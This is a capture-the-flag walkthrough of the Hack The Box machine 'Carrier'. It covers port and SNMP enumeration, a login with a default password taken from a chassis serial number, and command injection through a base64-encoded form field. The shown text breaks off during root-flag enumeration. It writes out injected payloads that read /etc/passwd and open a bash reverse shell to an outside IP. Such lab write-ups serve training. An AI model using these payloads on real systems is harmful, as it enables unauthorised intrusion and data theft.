# Writeup / Walkthrough for Hackthebox / Carrier

## Enumeration and User Flag
```
└──╼ $nmap -sC -sV -Pn 10.10.10.105
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-07 10:45 EDT
Nmap scan report for 10.10.10.105
Host is up (0.029s latency).
Not shown: 997 closed ports
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 15:a4:28:77:ee:13:07:06:34:09:86:fd:6f:cc:4c:e2 (RSA)
|   256 37:be:de:07:0f:10:bb:2b:b5:85:f7:9d:92:5e:83:25 (ECDSA)
|_  256 89:5a:ee:1c:22:02:d2:13:40:f2:45:2e:70:45:b0:c4 (ED25519)
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
```

Our starting point seems relatively straight forward.  Let's take a look at the web page on port 80:


There are some error codes (45007 and 45009) that may come in useful later.  They are likely custom errors for the Lyghtspeed application.  Before we try to brute force logins or try things like SQL injection on the login form, we need to enumerate some more.  Let's try to find any other pages on the site which may give us useful information.  For that, we will break out ```gobuster```.  ```gobuster``` is a tool that runs a list of directories against a website to see if any requests generate HTTP status codes that give us more information.  Let's see what we get:
```
# -w is the wordlist we want to use
# -u is the base URL to use (gobuster will append each word in the wordlist to this URL)
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.105

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.105/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2018/10/07 10:51:40 Starting gobuster
=====================================================
/img (Status: 301)
/tools (Status: 301)
/doc (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/debug (Status: 301)
/server-status (Status: 403)
=====================================================
2018/10/07 11:03:22 Finished
=====================================================
```
We got a number of directories to look at.  The most interesting are doc and debug.  Let's take a look at debug first:


```phpinfo()``` is a wealth of information about the system.  We can get all kinds of useful info from here that we might not have access to otherwise.  From this, we know:

  * The kernel version (4.15.0-24-generic), host name (web), and architecture (x64) of the system (```Linux web 4.15.0-24-generic #26-Ubuntu SMP Wed Jun 13 08:44:47 UTC 2018 x86_64```)
  * PHP Version (```7.0.30-0ubuntu0.16.04.1```)
  * Apache Version (we had this from our directory listings before): ```Apache/2.4.18 (Ubuntu)```
  * User apache is running as (```www-data```)
  * Where the site lives on the filesystem (```/var/www/html```)
  * The loaded extensions and their versions
  
We will keep this around in case we need it later.  Now onto the doc directory:


There are two documents in here.  One is an image showing how the network this box is in is connected to peer networks:


The other is a document that lists error codes:


The document has more information about the two error codes we saw on the front page (45007 and 45009):

  * 45007: License invalid or expired
  * 45009: System credentials have not been set Default admin user password is set (see chassis serial number)

Error code 45009 is probably the most useful to us.  We have a probable user name (```admin```) and the admin password (the serial number of the server chassis).  The challenge now is to find the serial number of the chassis.  Obviously, we do not have physical access to the chassis to read off the serial number, but perhaps we can get it remotely.  When managing large numbers of equipment (servers, networking equipment, supporting devices), a common protocol is SNMP.  SNMP stands for Simple Network Management Protocol.  It lives on UDP port 161.  Our first scan did not pick it up because we were only scanning TCP ports.  We can scan UDP port 161 to see if SNMP is open on this box:

```
# -sU runs a UDP scan.
nmap -sC -sU -Pn 10.10.10.105 -p 161
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-07 11:21 EDT
Nmap scan report for 10.10.10.105
Host is up (0.034s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-info: 
|   enterprise: pysnmp
|   engineIDFormat: octets
|   engineIDData: 77656201ec9908
|   snmpEngineBoots: 2
|_  snmpEngineTime: 18h26m17s

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

It looks like we have a service talking SNMP.  Let's dive a bit more into SNMP so we know what we are looking for.
### SNMP
SNMP consists of three main components:

  1.  Managed Devices - Any device that a network administrator wants to manage, such as a server, router, switch, or even IoT devices like light bulbs.
  2.  SNMP Agent - A piece of software that translates device information into SNMP
  3.  Network Management Systems - Applications that process and monitor SNMP in a network.
  
There are three versions of SNMP in use: v1, v2c, and v3.

In SNMP, data is stored and transmitted in a hierarchical structure (a tree).  This makes it so that data passed around can be flexible (which is good when you are trying to manage many different types of devices).  The tree's branches are called Management Information Bases, or MIBs.  MIBs are groups of devices or components.  MIBs are uniquely identified by numbers and strings.  Each MIB contains one or more nodes (devices or components) in the network.  THese nodes are identified by a unique Object Identifier (or OID).  OIDs are a set of numbers and strings.  An example is ```1.3.6.1.4.1.1234.1.2.4.2.6.78.2.1.3```.  IANA assigns OIDs under ```1.3.6.1.4.1```, so you will see these six numbers most often.

| Number | Label      | Detail                                                                              |
|--------|------------|-------------------------------------------------------------------------------------|
|    1   |     iso    | ISO established the OID standard.                                                   |
|    3   |     org    | The next entry will be an organization (identified-organization).                   |
|    6   |     dod    | The U.S. Department of Defense (DOD)                                                |
|    1   |  internet  | This device will communicate on a network (or the Internet)                         |
|    4   |   private  | The device was manufactured by a private entity (as opposed to a government entity) |
|    1   | enterprise | The device manufacturer is classified as an enterprise                              |


The Enterprise tag in the information we got back from our target tells us that pysnmp is the name of the SNMP agent.  There are four requests we can make of the agent (at least with SNMPv1):

  1. Get: Get a single piece of information from the device
  2. GetNext: Get more than one piece of information from the device (used with Get)
  3. Set: Make a configuration change to a device
  4. Trap: Sent by a device to tell the network management system something (like high CPU load)
  
SNMPv2 added two additional commands:

  1.  GetBulk: Obtain multiple pieces of information from a device in one command (without having to Get, then a number of GetNext requests)
  2.  Inform: Allows a network management system to forward trap information to other network management systems.

The first thing we have to figure out in order to query the SNMP agent on our target is the name of the SNMP community string we want to query.  Community strings are like a password that a device uses to determine if it should give the client access to its information.  Common community strings are ```public``` (read only) and ```private``` (read / write).  These strings are often unencrypted (at least in SMNPv1 and SNMPv2/v2c).  We could find it if we are in a position to sniff traffic from the target, but we are not in this case.  We will have to guess the community strings.  We can use nmap (with the snmp-brute NSE script) or a tool called onesixtyone.  I will give commands for both:
```bash
# nmap
nmap -Pn -sU --script=snmp-brute 10.10.10.105 -p 161

# onesixtyone
# -c specifies the list of community strings we want to try
# the wordlist /usr/share/doc/onesixtyone/dict.txt comes with onesixtyone
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 10.10.10.105
```

nmap gives us the following output:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-07 12:15 EDT
Nmap scan report for 10.10.10.105
Host is up (0.045s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute: 
|_  public - Valid credentials

Nmap done: 1 IP address (1 host up) scanned in 2.83 seconds
```

We can use a tool called ```snmpwalk``` to query the device.  We will query the ```public``` string we found with nmap:
```bash
# -c is the community string we want to query
# -v1 is telling snmpwalk to use SNMPv1.  We do not have enough information right now to make a v3 request (we would likely need to authenticate),
# so we will hope that the device works with SNMPv1
snmpwalk -c public 10.10.10.105 -v1
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB
```

We got back a string ```SN#NET_45JDX23``` that looks like a serial number.  If you remember back to when we found the error code documentation, the serial number should be the admin password.  Let's try logging into the web interface with the credentials ```admin / NET_45JDX23```:


Poking around the application a bit, we find some tickets:


There is an interesting one that we may have to investigate later: "User called in to report what is according to him a "critical security issue" in our demarc equipment. Mentioned something about a CVE (??). Request contact info and sent to legal for further action."

There is also a diagnostic tab:


```
quagga 19935 0.0 0.0 24500 1976 ? Ss 16:20 0:00 /usr/lib/quagga/zebra --daemon -A 127.0.0.1
quagga 19939 0.0 0.1 29444 2808 ? Ss 16:20 0:00 /usr/lib/quagga/bgpd --daemon -A 127.0.0.1
root 19944 0.0 0.0 15432 168 ? Ss 16:20 0:00 /usr/lib/quagga/watchquagga --daemon zebra bgpd
```

This output looks a lot like that of ```ps -aux```.  Here are couple of lines from my system:
```bash
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.0  0.1 190340  8784 ?        Ss   10:18   0:02 /sbin/init splash noautomount
root          2  0.0  0.0      0     0 ?        S    10:18   0:00 [kthreadd]
root          3  0.0  0.0      0     0 ?        I<   10:18   0:00 [rcu_gp]
root          4  0.0  0.0      0     0 ?        I<   10:18   0:00 [rcu_par_gp]
```

If we overlay the diagnostic information with the columns from ```ps -aux```:
```
USER        PID   %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
quagga      19935 0.0  0.0    24500 1976 ?        Ss   16:20   0:00 /usr/lib/quagga/zebra --daemon -A 127.0.0.1
quagga      19939 0.0  0.1    29444 2808 ?        Ss   16:20   0:00 /usr/lib/quagga/bgpd --daemon -A 127.0.0.1
root        19944 0.0  0.0    15432 168  ?        Ss   16:20   0:00 /usr/lib/quagga/watchquagga --daemon zebra bgpd
```
This gives us another user name (quagga).

Since this looks like the output of a command, maybe the PHP page is executing commands and we can somehow tap into that.  If we open up the developer console, we can see a variable is passed when the button is pushed (and a POST request is generated):


The ```check``` variable has a value of ```cXVhZ2dh```.  Since it is letters and numbers and is a multiple of 4 characters long, we can try Base64 decoding it:
```bash
echo cXVhZ2dh | base64 -d
quagga
```
What if we try root?  The string root base64 encoded is ```cm9vdAo=```.  Let's try passing that as the value of the check variable.  I will use Burp Interceptor to edit the value of check after the browser sends it.  We will replace the default value of check (```cXVhZ2dh```) with the value for root (```cm9vdAo=```) then hit Forward:


When we hit Forward, we get different output in the browser:


This looks like a list of all processes that root is running or that have root in the command line.  It was probably generated by this command:
```bash
bash -c ps waux | grep root | grep -v grep
```

It looks like we have control over the argument to the first grep in that statement.  We could change it something like this:
```bash
bash -c ps waux | grep blahblahblah; <our command> # | grep -v grep
```
The semicolon breaks the pipeline and lets us run whatever command we want.  We will use a hash mark (#) to comment out the rest of the line just so that we have full control over execution.

Let's try it by grabbing the contents of ```/etc/passwd```.  To do that we need to create our command and base64 encode it:
```bash
# blahblahblah is just any string - we want something that would not normally be in the output so that we do not have to worry about extraneous information
# cat /etc/passwd is the command we want to run
# # comments out the rest of the line
blahblahblah; cat /etc/passwd #

echo "blahblahblah; cat /etc/passwd #" | base64
YmxhaGJsYWhibGFoOyBjYXQgL2V0Yy9wYXNzd2QgIwo=
```

When we substitute ```YmxhaGJsYWhibGFoOyBjYXQgL2V0Yy9wYXNzd2QgIwo=``` for the value of the check variable like we did above, we can see the contents of ```/etc/passwd```:


Looks like it worked.  Now we need to get a shell.  We can use bash to create a reverse shell to call us back:
```bash
echo "blahblahblah; bash -i >& /dev/tcp/10.10.14.38/8000 0>&1 #" | base64
YmxhaGJsYWhibGFoOyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjM4LzgwMDAgMD4mMSAjCg==
```

Looks like we have a shell, and after some poking around, we find the user flag in root's home directory.


I guess this is not the real root we are looking for.  Oh well.  At least we have the user flag.  We can work on getting the root flag.

## Root Flag
After a little bit of poking around, it seems like this box has a number of different interfaces and routes to a number of different networks:

```bash
ip addr
```
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet 192.168.0.100/32 scope global lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state 10.UP group default qlen 1000
    link/ether 00:16:3e:d9:04:ea brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.99.64.2/24 brd 10.99.64.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fed9:4ea/64 scope link 
       valid_lft forever preferred_lft forever
10: eth1@if11: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:8a:f2:4f brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.78.10.1/24 brd 10.78.10.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe8a:f24f/64 scope link 
       valid_lft forever preferred_lft forever
